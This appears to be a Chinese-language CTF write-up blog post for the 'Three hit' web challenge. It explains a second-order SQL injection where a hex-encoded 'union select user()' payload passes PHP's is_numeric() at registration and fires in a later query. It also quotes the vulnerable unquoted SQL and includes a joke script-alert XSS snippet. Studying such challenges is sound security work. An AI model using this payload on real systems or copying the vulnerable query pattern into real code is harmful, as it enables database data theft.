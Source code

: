 ```yaml
---
layout: post
title: Three hit
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


# 1.题目源码   

[https://github.com/ZhangAiQiang/three-hit](https://github.com/ZhangAiQiang/three-hit)    



<script>alert("__   __            _                         __  ______ ____ ___ 
\ \ / /__  _   _  | | ___ __   _____      __ \ \/ / ___/ ___|__ \
 \ V / _ \| | | | | |/ / '_ \ / _ \ \ /\ / /  \  /\___ \___ \ / /
  | | (_) | |_| | |   <| | | | (_) \ V  V /   /  \ ___) |__) |_| 
  |_|\___/ \__,_| |_|\_\_| |_|\___/ \_/\_/   /_/\_\____/____/(_)")
 </script>  

# 2.is_numeric()漏洞

is_numeric()检查是否是数字字符串，同时也可以是十六进制。  

比如  

>     is_numeric(1) true
>     is_numeric('a') false
>     is_numeric('2a') false
>     is_numeric(0xabcedf) true  

# 3.注册账号


>     root,root,0x3078656520756E696F6E2073656C656374207573657228292C322C33
>     age是一串十六进制，是
>     0xee union select user(),2,3  的十六进制形式
>     因为is_numeric()的关系，同样可以写进去，那么会是什么格式呢  

# 4.分析注册的时候的源码  

>     $sql="insert into user values('$username',md5('$password'),$age)";

可以看到$age是没有单引号保护的，那我们看一下数据库中的数据  

![](https://i.imgur.com/edi4jzk.png)  

(这里先说下，age并不是int类型，因为是int类型的话，字符串根本插不上。)  


我们明明是插入的十六进制数据，为什么会变成字符串呢？  

执行一下sql:   

>       insert into user values('root2',md5('root2'),0x3078656520756E696F6E2073656C656374207573657228292C322C33)
>       insert into user values('root3',md5('root3'),'0x3078656520756E696F6E2073656C656374207573657228292C322C33')

![](https://i.imgur.com/q4CXsdy.png)

两者的区别在于，age是否有单引号的保护，我们看到，当少了单引号后，插入的十六进制数据变成了字符串，和题目的源码正好对应了起来。  


# 5. 个人中心  

![](https://i.imgur.com/YvFrhhn.png)  

可以看到，已经注入出来了user。  

# 6.分析个人中心的源码  

username是存储在session里面的，然后功能是先找出你当前用户的age，然后根据当前用户的age寻找其他的具有相同age的用户。  
>     
$sql = "SELECT *  FROM user where username= '".$_SESSION['username']."'"; 这一句话查询出年龄，并没有什么危害。  

>     $sql = "SELECT *  FROM user where age=".$age; 
>     这句话是二次注入的引发点，因为age我们是可控的，我们注册的root账号里面age内容是  
>     0xee union select user(),2,3  
>     拼接:select * from user where age=0xee union select user(),2,3  

这样诸如就分析完了。  

# 7.总结:

age得为字符串类型  

插入注册信息的时候age字段没有单引号保护

我感觉就拿这个题目来说的话，平时工作谁会写出这么蠢的代码。